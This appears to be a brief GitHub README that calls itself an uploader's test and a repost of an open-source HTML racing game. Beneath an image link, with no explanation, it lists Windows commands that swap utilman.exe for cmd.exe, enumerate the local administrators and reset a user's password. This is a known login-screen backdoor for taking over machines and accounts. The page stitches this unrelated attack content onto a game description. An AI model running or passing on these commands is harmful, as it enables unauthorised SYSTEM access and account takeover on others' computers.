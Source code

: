 # 仅供上传者Test！！！

---转自jakesgordon(javascript-racer)!!!---
--开源HTML前端游戏--
![image](https://github.com/liukee/TEST/assets/39934375/7ca99195-1b95-4872-b20d-c91accfd52e1)
copy C:\windows\system32\utilman.exe C:\Windows\system32\utilman.exebak
<br>copy C:\windows\system32\cmd.exe C:\Windows\system32\utilman.exe
<br>net localgroup administrators
<br>net user "user" *
